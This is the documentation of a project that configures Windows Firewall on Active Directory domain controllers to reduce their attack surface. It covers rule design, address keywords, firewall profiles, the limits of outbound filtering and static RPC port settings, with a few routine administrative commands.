


# Domain Controller Firewall

## Change History {.unnumbered}

| Date         | Version | Author                        | Description                                                                 |
|--------------|--------:|----------------|-----------------------------------------------------------------------------|
| 2024-05-23   | 0.8     | P. Formanek,<br>M. Grafnetter | Public draft.                                                               |
| 2024-08-27   | 0.9     | M. Grafnetter                 | Support for more server roles and [external scripts](#customrulefilenames). |
| 2024-11-20   | 1.0     | M. Grafnetter                 | Document ready for review.                                                  |
| 2024-11-23   | 1.1     | P. Formanek,<br>M. Grafnetter | Fixed some typos.                                                           |
| 2024-12-31   | 1.2     | M. Grafnetter                 | Added the [RestrictADWS](#restrictadws) parameter.                          |
| 2025-01-11   | 1.3     | M. Grafnetter                 | Improved [helper scripts](#dcfwtool-distribution-contents).<br>Added the [Port Scanning](#port-scanning) and expanded the [System Reboots](#system-reboots) sections. |
| 2025-02-24   | 1.3.1   | P. Formanek                   | Expanded the [Firewall Rule Merging](#firewall-rule-merging) section. |

Script files referenced by this document are versioned independently:

| Script file name                | Latest version |
|---------------------------------|---------------:|
| `Set-ADDSFirewallPolicy.ps1`    |            2.9 |
| `CustomRules.Sample.ps1`        |            2.8 |
| `RpcNamedPipesFilters.txt`      |            2.1 |
| `Show-WindowsFirewallLog.ps1`   |            1.2 |
| `Undo-ADDSFirewallPolicy.bat`   |            2.9 |
| `Update-ADDSFirewallPolicy.bat` |            2.9 |

## Glossary {.unnumbered}

| Abbreviation | Explanation                                           |
|--------------|-------------------------------------------------------|
| DC           | Domain Controller                                     |
| ADDS         | [Active Directory Domain Services]                    |
| AD           | Active Directory (Domain Services)                    |
| DNS          | Domain Name System                                    |
| DNSSEC       | Domain Name System Security Extensions                |
| DoH          | DNS over HTTPS                                        |
| FQDN         | Fully Qualified Domain Name                           |
| GPO          | Group Policy Object                                   |
| PS           | [PowerShell]                                          |
| T0 / Tier 0  | Control plane of your environment – see [Admin Model] |
| SCCM         | [System Center Configuration Manager]                 |
| SCOM         | [System Center Operations Manager]                    |
| NLA          | [Network Location Awareness]                          |
| PAW          | [Privileged Access Workstation]                       |
| FW           | Firewall                                              |
| WINS         | Windows Internet Name Service                         |
| NPS          | Network Policy Server                                 |
| RADIUS       | Remote Authentication Dial-In User Service            |
| ASR          | [Attack Surface Reduction]                            |
| WMI          | Windows Management Instrumentation                    |
| RPC          | [Remote Procedure Call]                               |
| DCOM         | Distributed Component Object Model                    |
| SMB          | Server Message Block                                  |
| TCP          | Transmission Control Protocol                         |
| UDP          | User Datagram Protocol                                |
| NTP          | Network Time Protocol                                 |
| SNMP         | Simple Network Management Protocol                    |
| RSAT         | [Remote Server Administration Tools]                  |
| ICMP         | Internet Control Message Protocol                     |
| DHCP         | Dynamic Host Configuration Protocol                   |
| LLMNR        | [Link-Local Multicast Name Resolution]                |
| mDNS         | Multicast DNS                                         |
| OS           | Operating System                                      |
| UI           | User Interface                                        |
| PoC          | Proof of Concept                                      |
| L3           | Layer 3 (Network Layer)                               |
| SIEM         | Security Information and Event Management             |
| ITDR         | Identity Threat Detection and Response                |
| EDR          | Endpoint Detection and Response                       |
| EFS          | Encrypting File System                                |
| IPSec        | Internet Protocol Security                            |
| MITM         | Man-in-the-middle or on-path attack                   |
| TFTP         | Trivial File Transfer Protocol                        |
| PDC          | Primary Domain Controller                             |
| DoS          | Denial of Service                                     |

[Admin Model]: https://petri.com/use-microsofts-active-directory-tier-administrative-model/
[System Center Configuration Manager]: https://learn.microsoft.com/en-us/mem/configmgr/core/understand/introduction
[System Center Operations Manager]: https://learn.microsoft.com/en-us/system-center/scom/get-started
[Network Location Awareness]: https://learn.microsoft.com/en-us/windows/win32/winsock/network-location-awareness-service-provider-nla--2
[Privileged Access Workstation]: https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-devices
[Attack Surface Reduction]: https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/overview-attack-surface-reduction?view=o365-worldwide
[Remote Procedure Call]: https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page
[Active Directory Domain Services]: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Remote Server Administration Tools]: https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools
[Link-Local Multicast Name Resolution]: https://www.rfc-editor.org/rfc/rfc4795.html

## Summary

Windows Firewall with Advanced Security can sometimes be tricky to configure securely.
Consequently, it is usually disabled or left open for all traffic in many organizations.
The *Domain Controller Firewall* project therefore aims to simplify the deployment of a specific set of firewall rules
and RPC filters that can significantly reduce the attack surface of Domain Controllers (DCs),
without impacting the functionality of Active Directory (AD).


The purpose of this whitepaper is to serve as a comprehensive source of Windows Firewall-related information.
It includes detailed information about Windows Firewall configuration options, network protocols,
configuration caveats, and network-based attacks. Most importantly, it provides guidance on configuring
Windows Firewall with Advanced Security in enterprise environments to make them more secure.

To streamline the host-based firewall configuration process, we have also created the `DCFWTool` as part of this project.
This PowerShell-based tool provides a flexible and repeatable way
of deploying a secure DC firewall configuration within minutes.
The functionality and configuration options of the `DCFWTool` are described in this document as well.

[](https://github.com/MichaelGrafnetter/active-directory-firewall/blob/main/LICENSE)

> [!NOTE]
> This document only focuses on the configuration of domain controller firewalls.
> It is further expected that DCs are only running the recommended set of roles, such as ADDS, DNS, and NTP server.
> Additional Windows Server roles, as well as management, backup, or logging agents,
> are out of the scope of this whitepaper.
> This document also does not cover a broader DC hardening strategy.

## About the Authors

{ width=150pt align=left }

[Michael Grafnetter](https://en.linkedin.com/in/grafnetter)
is a [Microsoft MVP](https://mvp.microsoft.com/en-us/PublicProfile/5001919?fullName=Michael%20Grafnetter)
and expert on Windows security and PowerShell.
He is best known for inventing the [Shadow Credentials](https://medium.com/@NightFox007/exploiting-and-detecting-shadow-credentials-and-msds-keycredentiallink-in-active-directory-9268a587d204)
attack primitive and creating the [Directory Services Internals (DSInternals)](https://github.com/MichaelGrafnetter/DSInternals)
PowerShell module.
He is also the author of the [Delinea Weak Password Finder](https://delinea.com/resources/weak-password-finder-tool-active-directory)
(formerly Thycotic) and the [DSInternals.Passkeys](https://github.com/MichaelGrafnetter/webauthn-interop) PowerShell module.

Michael enjoys sharing his knowledge during Active Directory security assessments,
workshops, and tech talks. He presented his [security research](https://www.dsinternals.com/en/projects/)
at many international conferences, including [Black Hat Europe](https://www.blackhat.com/eu-19/speakers/Michael-Grafnetter.html),
[BSides Lisbon](https://bsideslisbon.org/2019/speakers/#michaelgrafnetterWorkshop),
[HipConf New York](https://www.youtube.com/playlist?list=PLDHg9RSgIEmMyz1eN2Je1HjTDhBjRpJP4),
[SecTor Canada](https://www.blackhat.com/sector/),
and [TROOPERS](https://troopers.de/).

{ width=150pt align=right }

[Pavel Formanek](https://en.linkedin.com/in/pavel-formanek-9861397)
is the CTO and co-founder of [Cloudi Support](https://www.cloudi.cz),
which helps customers to secure their infrastructure, both on-prem and in the cloud.
Prior to founding the company, Pavel worked many years at Microsoft as a Premier Field Engineer (PFE),
responsible for security assessments and healthchecks of the largest EMEA Microsoft customers.
He also created and delivered dozens of training sessions over the years.

## Secure Firewall Policy Design

### Overview

There are many decisions one needs to make when designing a firewall policy for domain controllers.
This chapter contains general recommendations on Windows Firewall configuration, including the reasoning behind them.

When creating your own DC firewall policy, you do not need to start from scratch. Instead, you can use the `DCFWTool`,
which will generate a GPO that implements all these recommendations.

### Host-Based Firewall vs Network-Based Firewall

Most network administrators only configure network-based firewalls and turn off
the [Windows Firewall](https://learn.microsoft.com/en-us/windows/security/operating-system-security/network-security/windows-firewall/)
on servers. The reason is that they do not want to maintain duplicate sets of firewall rules
and that Windows Firewall rule management is cumbersome and inflexible.


There are several security issues with this approach:

- As network-based firewalls only filter traffic between networks, they are incapable of blocking lateral movement
  inside of VLANs. Their functionality might further be degraded by poor network segmentation.
- The majority of network firewalls are incapable of differentiating between various RPC-based protocols,
  most of which use dynamic port numbers. Thus, the entire ephemeral TCP port range (49152-65535) is typically accessible
  on domain controllers from the entire corporate network, regardless of whether a particular port is used
  by the Netlogon service or for remote management of scheduled tasks.
- Network-based firewalls are commonly managed by dedicated teams that might lack the required advanced Windows knowledge.


The best practice is thus to configure both the network-based firewall and host-based firewall. Internet traffic should
additionally be filtered by proxy servers.

This whitepaper only focuses on the secure configuration of host-based firewalls, i.e., Windows Defender Firewall
with Advanced Security, on domain controllers. However, the [Inbound Firewall Rules Reference](#inbound-firewall-rules-reference)
chapter might also serve as an information source for configuring network-based firewalls.

### Need for Scripting

As the Windows Firewall does not provide the ability to create named IP address sets, e.g., Management VLANs,
manual (re)configuration of firewall rules and their source IP address ranges is cumbersome and error-prone.
We have additionally noticed that port numbers are sometimes mangled while copying firewall rules between policy objects.
It is therefore strongly recommended that PowerShell scripts be used to manage Windows Firewall rules,
which is what the `DCFWTool` does.

### Static IP Addresses

Domain controllers should be configured with **static IP addresses**, as recommended by Microsoft.
Failure to do so might cause network outages and would further complicate the firewall configuration.
The firewall rule set described in this document therefore does not cover the DHCP client traffic.

### Firewall Rule Merging

To ensure consistent configuration of domain controllers,
their host-based firewalls should be managed centrally through one or more Group Policy Objects (GPOs).
Any **local settings on individual DCs should be ignored** during firewall rule evaluation.

This whitepaper and the policy object created by the `DCFWTool` focus exclusively on traffic associated with domain controllers,
as well as a few additional Windows Server roles often found on domain controllers.
If additional environment-specific firewall rules are necessary (such as for DC agents, SCCM management, etc.),
it is advisable to define them in separate GPOs.
The resulting firewall rule set, which will be honored by the DCs, will contain rules from all GPOs applied to those DCs.

> [!NOTE]
> Please keep in mind that this whitepaper only focuses on the firewall configuration
> and does not cover any other aspects of domain controller security hardening.
> It is essential to have a separate and dedicated security baseline GPO applied to your DCs.


There is one unexpected caveat regarding rule merging: When the same **Predefined rule**
is manually created using the "New Inbound Rule Wizard" in multiple GPOs with differing values,
the rule in the winning GPO will overwrite the rule in the GPO with lower precedence, rather than applying both rules.


Consider two GPOs, each containing 3 rules with the same name but conflicting sets of remote IP addresses:


Predefined rules created through a **copy/paste** operation and new rules created using the **Custom** option
will be merged as expected, resulting in a total of four firewall rules (i.e., two rules from each GPO).

However, only a single predefined firewall rule created directly in the target GPO using the wizard
will be included in the final configuration,
as the GPO with higher precedence overwrites any others containing the same rule:


> [!WARNING]
> There is a known bug in Windows where the **Rule Source** column may sometimes display wrong values
> that do not correspond to the respective values in the **Remote Addresses** column,
> as illustrated in the screenshot above.  
> This behavior appears to occur randomly.

### Identifying Management Traffic

#### Motivation

Any proper DC firewall rule design requires that administrators are able to define the following groups of IP addresses
or network ranges:

- **Client network** (servers and client computers)
- **Management network** (endpoints used for Tier 0 administration)
- **Domain Controller network** (all DCs in the forest)

Ideally, protocols that could be (mis)used for remote command execution, should only be open from the management network(s).
Similarly, replication traffic should only be allowed to originate from other domain controllers.
However, not all network protocols can be categorized easily.

#### The Good

With some protocols, it is quite obvious that they should only be available from management networks or jump servers.
This is the case with the **[Remote Desktop Protocol (RDP)](#remote-desktop---user-mode-udp-in)**
or **[Remote Event Log Management](#remote-event-log-management-rpc)**.

#### The Bad

Several protocols should primarily be used for remote system management,
but some organizations also use them for client traffic.

One such example is the **[Windows Remote Management (WinRM)](#windows-remote-management-http-in)** protocol.
Contrary to its name, it can not only be used
by [Server Manager](https://learn.microsoft.com/en-us/windows-server/administration/server-manager/server-manager)
and [PowerShell Remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting),
but also by source-initiated [Windows Event Collector](https://learn.microsoft.com/en-us/windows/win32/wec/windows-event-collector)
subscriptions.
As a best practice, domain controllers should not be used as event forwarding targets, especially not by workstations.
AD domains, where this recommendation is not followed, must first be reconfigured before the strict firewall rules
are applied to domain controllers.

Another example would be **[Active Directory Web Services (ADWS)](#active-directory-web-services-tcp-in)**. It is rare,
but not unimaginable, to see legitimate PowerShell scripts with the `Get-ADUser` cmdlet running on client machines.
Such scripts would stop working if ADWS is simply blocked on domain controllers.
On the other hand, it is relatively easy to rewrite these scripts to use the built-in
[DirectorySearcher](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.directorysearcher) class,
which relies on the [LDAP](#active-directory-domain-controller---ldap-udp-in) protocol instead of ADWS.
The added value would be the removal of the [ActiveDirectory](https://learn.microsoft.com/en-us/powershell/module/activedirectory/)
PowerShell module dependency.

If an organization still uses the standalone [Managed Service Accounts (MSAs)](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/managed-service-accounts-understanding-implementing-best/ba-p/397009),
application servers need ADWS connectivity for MSA enrollment using
the [Install-ADServiceAccount](https://learn.microsoft.com/en-us/powershell/module/activedirectory/install-adserviceaccount)
PowerShell cmdlet. Migration to [Group Managed Service Accounts (gMSAs)](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview),
which do not depend on this cmdlet, is highly recommended.

#### The Ugly

Unfortunately, there are some protocols that are required by all Windows clients, but can also be (mis)used
to perform administrative operations.

One would be highly tempted to limit the **[Directory Replication Service (DRS) Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47)**
traffic to domain controllers and thus block potential [DCSync](https://adsecurity.org/?p=1729) attacks.
Unfortunately, this protocol is also used by Windows clients during user logon,
specifically its [IDL_DRSCrackNames](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/9b4bfb44-6656-4404-bcc8-dc88111658b3)
RPC call, so it cannot simply be blocked by an L3 firewall rule.
One solution to this problem would be the deployment of the open-source [RPC Firewall](https://github.com/zeronetworks/rpcfirewall)
tool, which can selectively limit the scope of the dangerous
[IDL_DRSGetNCChanges](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894)
operation. However, the project does not seem to be mature enough for production deployments.
Its installation and configuration are cumbersome and require deep understanding of the RPC protocol.
Moreover, the binaries are not digitally signed, making them incompatible with some optional Windows security features,
including [LSA Protection](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection).
As a result, the most common approach is to just monitor domain controllers for unexpected replication traffic.
Many products in the Identity Threat Detection and Response (ITDR) category are able to detect the DCSync attack,
including [Microsoft Defender for Identity](https://learn.microsoft.com/en-us/defender-for-identity/what-is)
and [Netwrix Threat Manager](https://www.netwrix.com/threat_detection_software.html).

The protocol that causes the most confusion among network administrators is undeniably the **[Server Message Block (SMB)](#active-directory-domain-controller---samlsa-np-udp-in)**.
Although its primary use is for file and printer sharing, it can also be used for remote
system management through various RPC-based protocols. Because the functionality of AD heavily
depends on the `SYSVOL` and `NETLOGON` file shares on domain controllers, the SMB protocol
cannot simply be blocked on DCs. Deep packet inspection has also become less effective
with the advent of SMBv3 encryption. Our approach to this issue is
to [selectively block remote management over SMB named pipes](#rpc-filters).

Also worth mentioning is the **[Lightweight Directory Access Protocol (LDAP)](#active-directory-domain-controller---ldap-udp-in)**,
which gives Active Directory its name. It can surely be used for administrative operations,
e.g., privileged group membership changes, but at least it does not provide the capability to directly
execute arbitrary code on DCs. And with a well-configured SIEM or an ITDR solution,
modifications of sensitive AD objects can be detected in almost real time.

### Firewall Rule Deduplication

Many of the built-in/predefined Windows Firewall rules are actually duplicates of each other, as they open the same ports,
even though their names might suggest otherwise. For example, all the following rules open
port `135/TCP` for the `rpcss` service:

- RPC Endpoint Mapper (TCP, Incoming)
- Active Directory Domain Controller (RPC-EPMAP)
- Microsoft Key Distribution Service (RPC EPMAP)
- DFS Replication (RPC-EPMAP)
- File Replication (RPC-EPMAP)
- File Server Remote Management (DCOM-In)
- Remote Service Management (RPC-EPMAP)
- Remote Scheduled Tasks Management (RPC-EPMAP)
- Remote Event Log Management (RPC-EPMAP)
- Remote Event Monitor (RPC-EPMAP)
- Remote Volume Management (RPC-EPMAP)
- Windows Defender Firewall Remote Management (RPC-EPMAP)
- Windows Management Instrumentation (DCOM-In)
- DFS Management (DCOM-In)
- COM+ Remote Administration (DCOM-In)
- COM+ Network Access (DCOM-In)
- Performance Logs and Alerts (DCOM-In)


Similarly, all these firewall rules open port `445/TCP` for `System`:

- File and Printer Sharing (SMB-In)
- Active Directory Domain Controller - SAM/LSA (NP-TCP-In)
- Netlogon Service (NP-In)
- File Server Remote Management (SMB-In)
- DFS Management (SMB-In)
- Remote Event Log Management (NP-In)
- Remote Service Management (NP-In)


Moreover, both ports 135 and 445 need to be accessible by all Windows clients for Active Directory to function properly.
To keep the configuration readable, it is reasonable to consolidate the redundant rules
and to create a single firewall rule for each static port number.

### Issues with Predefined Address Sets

#### Overview of Keywords

In addition to manually enumerating IP address ranges, the firewall rule scope configuration allows
the use of predefined sets of computers, known as keywords.

{ width=300px }

These keywords are briefly described in the [MS-FASP: Firewall and Advanced Security Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-fasp/d69ec3fe-8507-4524-bdcc-813cbb3bf85f)
document. However, no public documentation is available that explains how the keywords are defined and under
what circumstances the corresponding IP addresses are updated.

#### Intranet

The *Intranet* keyword is based on the Subnet definition from Active Directory Sites and Services.
However, our tests have shown that the corresponding firewall rule scopes are not re-evaluated after adding
or deleting a subnet. Even multiple server reboots do not seem to resolve this issue.
Due to this unreliability, we have decided not to use the *Intranet* keyword in any firewall rules.


#### Internet

The *Internet* keyword is presumed to include anything not defined as the *Intranet* keyword.
However, due to the unpredictable and undocumented behavior of the *Intranet* keyword,
we have decided not to use the *Internet* keyword in any firewall rules as well.

#### DNS Servers

The *DNS Servers* keyword is functional and respects all DNS servers defined in the network adapter properties.
If a new DNS server IP address is configured, a network adapter state change (disable/enable, server restart, etc.)
is required for the corresponding firewall rules to be automatically updated.

{ width=400px }

#### Additional Keywords

Additional keywords are available and although they seem to be mostly working,
they are not relevant to inbound firewall rule configuration for Domain Controller:

- Local subnet
- DHCP servers
- WINS servers
- Default gateway
- Remote Corp Network
- PlayTo Renderers
- Captive Portal Addresses

### Avoiding Localized Rule Names

All the built-in firewall rules are localized and displayed based on the OS language.
However, this feature relies on RSAT being installed on the management computer.
If RSAT is absent, the UI may show references to missing DLL files instead of the actual firewall rule display names.

{ width=300px }

To ensure consistent firewall rule name display regardless of RSAT or the OS locale,
all rule names should be hardcoded in the PowerShell script creating them.

### Firewall Profiles

Windows Firewall differentiates between three network profiles that can be targeted by firewall rules:

- The **Domain** profile applies to networks where the host system can authenticate to a domain controller.
- The **Private** profile is used to designate private or home networks.
- The **Public** profile is used to designate public networks
  such as Wi-Fi hotspots at coffee shops, airports, and other locations.

Network interfaces of Domain Controllers and other computers on corporate networks
are automatically assigned the Domain profile.
However, the assignment of this profile depends on the Microsoft Windows Network Location Awareness (NLA) functioning properly.
Under specific circumstances, usually during recovery scenarios or complete power outages,
NLA can improperly detect the network type during the system startup and thus activate a wrong firewall profile.

It is therefore highly recommended to configure all firewall rules on DCs to target all 3 network profiles,
to avoid potential loss of network connectivity.

{ width=400px }

### Infeasibility of Outbound Traffic Filtering

#### Reasons for Blocking Outbound Traffic

Generally speaking, outbound firewall rules on domain controllers might play an important role in blocking NTLM relay
through workstations, preventing lateral movement, breaking malware C2 channels, and mitigating the risk of data breaches.

On the other hand, all of the [security standards we are familiar with](#security-standards-compliance) state
that Windows Firewall should allow outbound connections by default.
The [CIS benchmark](#center-for-internet-security-cis-benchmark) provides this rationale:

> Some people believe that it is prudent to block all outbound connections except those specifically approved
> by the user or administrator. Microsoft disagrees with this opinion, blocking outbound connections by default will
> force users to deal with a large number of dialog boxes prompting them to authorize or block applications
> such as their web browser or instant messaging software. Additionally, blocking outbound traffic
> has little value because if an attacker has compromised the system they can reconfigure the firewall anyway.

Furthermore, our security research has shown that configuring a reliable allow list for outbound traffic
using the built-in features of Windows is impractical. We have identified several challenges that make
it difficult to implement such a list.

#### Services with User Impersonation

The following important Windows services initiate outbound connections, yet they locally impersonate the currently
logged-on user, making it impossible to target them in service-specific Windows Firewall rules:

- Windows Update (wuauserv)
- Cryptographic Services (CryptSvc)
- Background Intelligent Transfer Service (BITS)

This means that in order to keep Windows Update working, one would need to target the `svchost.exe` program
in a firewall rule, thus allowing all services to connect to remote computers.

#### Scheduled Tasks with Custom Handlers

Some scheduled task actions are implemented using a custom DLL handler. As a result, the corresponding firewall
rule would need to target the `taskhostw.exe` program, thus allowing all scheduled tasks to connect to remote computers.


#### Microsoft Defender for Identity

The [Network Name Resolution](https://learn.microsoft.com/en-us/defender-for-identity/nnr-policy)
and [Lateral Movement Path Detection](https://learn.microsoft.com/en-us/defender-for-identity/deploy/remote-calls-sam)
capabilities of Microsoft Defender for Identity depend on the domain controllers being able to connect
over the RDP (TCP port 3389), RPC (TCP port 135), NetBIOS (UDP port 137), and SMB (TCP port 445) protocols
to all workstations. It would thus be impossible to fully mitigate NTLM relay attacks against domain controllers
using outbound firewall rules in environments with this product deployed. Moreover, the sensor needs to be able
to communicate with Microsoft's servers as well.

#### Azure Arc

Large organizations might want to utilize the new hotpatching capability of Windows Server 2025.
However, this feature is only available on servers managed by [Azure Arc](https://azure.microsoft.com/en-us/products/azure-arc).
And the Azure Arc Agent contains several binaries and PowerShell scripts,
which all need to be able to communicate with Microsoft's cloud,
but their exact behavior is undocumented and subject to change.

{ width=400px }

Interestingly, the Azure Arc installer creates a custom outbound firewall rule called `SmeOutboundOpenException`,
which targets all processes and is scoped to a hardcoded list of Microsoft's IP addresses.
It is unclear how reliable and future-proof this rule actually is,
as even [Google has never heard of it](https://www.google.com/search?q=SmeOutboundOpenException).

{ width=400px }

#### Installers Downloading Additional Files

Many application installers (`setup.exe` or `setup.msi`) do not work in a fully offline mode,
as they need to download some prerequisites from the Internet.
Microsoft .NET Framework and Visual C++ Runtime seem to be the most common installer dependencies.
Then there are so-called web installers, which download all application binaries from online sources.
As installers do not have well-defined names and can be executed from any location,
it is impossible to selectively cover them with firewall rules.

#### Dynamic Keywords

Windows Firewall includes a functionality called [dynamic keywords](https://learn.microsoft.com/en-us/windows/security/operating-system-security/network-security/windows-firewall/dynamic-keywords),
which simplifies the management of Windows Firewall.
This feature allows administrators to define the following types of keywords,
which can then be referenced by firewall rules:

- Set of IP address ranges
- Fully qualified domain names (FQDNs)
- Autoresolution options

As the dynamic keywords cannot be referenced in firewall rules managed by Group Policies,
we have decided not to use them in our configuration.

#### WinHTTP Proxy

After we verified that it was indeed impossible to selectively filter outbound Internet traffic on domain controllers
using Windows Firewall in a reliable way, we turned our attention
to the built-in [WinHTTP proxy](https://learn.microsoft.com/en-us/windows/win32/winhttp/netsh-exe-commands#set-advproxy).
The idea was to compile a list of all cloud endpoints used by Windows Server components
and to configure the local WinHTTP proxy to only allow outbound HTTP(S) connections to these endpoints
while acting as a black hole for any other outbound traffic.


Although this approach seemed promising initially, we soon stumbled upon a few difficulties:
The advanced WinHTTP proxy settings lack proper documentation and the ever-changing list
of Microsoft's cloud services used by Windows Server turned out to be too large for us to maintain.
And when the `netsh.exe winhttp reset autoproxy` stopped working repeatedly
and manual registry cleanup was necessary to fix this issue,
we definitely abandoned the idea of using WinHTTP proxy on domain controllers.


#### Escaping the Rabbit Hole

As a conclusion, the only viable and secure solution is to deploy 3rd-party Internet proxy servers
that would limit the outbound traffic from domain controllers to select FQDNs.
This list of approved addresses used by Microsoft's services should ideally be kept up-to-date by the proxy vendor.

Some Windows Server components that generate non-essential outbound Internet traffic can easily be turned off.
For example, many enterprises choose to turn off [telemetry](https://learn.microsoft.com/en-us/windows/privacy/configure-windows-diagnostic-data-in-your-organization)
and [P2P delivery of Windows updates](https://learn.microsoft.com/en-us/windows/deployment/do/waas-delivery-optimization).

To at least block outbound traffic to known malicious IP addresses and URLs directly on the host,
it is recommended to turn on the [Network protection](https://learn.microsoft.com/en-us/defender-endpoint/network-protection)
feature of the built-in Microsoft Defender Antivirus.
Thus far, we have not noticed any adverse effects of enabling this functionality on domain controllers.

And then there are of course air-gapped (isolated) environments,
in which the growing number of cloud-dependent Windows Server features will never be used,
thus eliminating the need to differentiate between legitimate and potentially malicious Internet traffic.

### Static RPC Ports

Several Windows services that use RPC dynamic ports by default can be configured to listen on static port numbers instead.
This allows for easier tracing and troubleshooting at the network level
and simplifies rule configuration for network-based firewalls.

Static endpoints of some protocols can be set by modifying the registry.
This is the case with the **Active Directory (NTDS)** service:

> HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters  
> Value name: TCP/IP Port  
> Value type: REG_DWORD  
> Value data: (available port)

The related **Netlogon** service needs to be configured separately:

> HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\Netlogon\\Parameters  
> Value name: DCTcpipPort  
> Value type: REG_DWORD  
> Value data: (available port)

A static TCP port can be configured for the legacy **File Replication Service (FRS)** through the registry as well:

> HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\NTFRS\\Parameters  
> Value name: RPC TCP/IP Port Assignment  
> Value type: REG_DWORD  
> Value data: (available port)

To simplify the deployment of the registry settings above,
the custom [DomainControllerFirewall.admx](#administrative-templates) template
has been created as part of this project.

Additional static RPC ports can be set using built-in command line tools,
most importantly for the **Distributed File System Replication (DFSR)**:

```shell
dfsrdiag.exe StaticRPC /Port:<available port>
```

We recommend using port 5722, which was allocated for DFSR in Windows Server 2008 and Windows Server 2008 R2,
before the service was changed to use a random port number in Windows Server 2012.
As the `dfsrdiag` tool is not available on DCs by default,
it must first be installed using the following command:

```shell
dism.exe /Online /Enable-Feature /FeatureName:DfsMgmt
```

The **Windows Management Instrumentation (WMI)** protocol can also be configured
to use a static TCP port. The next command will move the WMI service
to a standalone process listening on TCP port 24158,
with the authentication level set to [RPC_C_AUTHN_LEVEL_PKT_PRIVACY](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/425a7c53-c33a-4868-8e5b-2a850d40dc73):

```shell
winmgmt.exe /standalonehost 6
```

In order to maintain uniform configuration across all domain controllers,
these commands are recommended to be executed from startup scripts targeting DCs.

Here is a mnemotechnical example of a static RPC port configuration:

| Service  |         Port |
|----------|-------------:|
| NTDS     |    38901/TCP |
| Netlogon |    38902/TCP |
| FRS      |    38903/TCP |
| DFSR     |     5722/TCP |
| WMI      |    24158/TCP |

References:

- [How to restrict Active Directory RPC traffic to a specific port](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/restrict-ad-rpc-traffic-to-specific-port)
- [Configuring DFSR to a Static Port - The rest of the story](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/configuring-dfsr-to-a-static-port-the-rest-of-the-story/ba-p/396746)
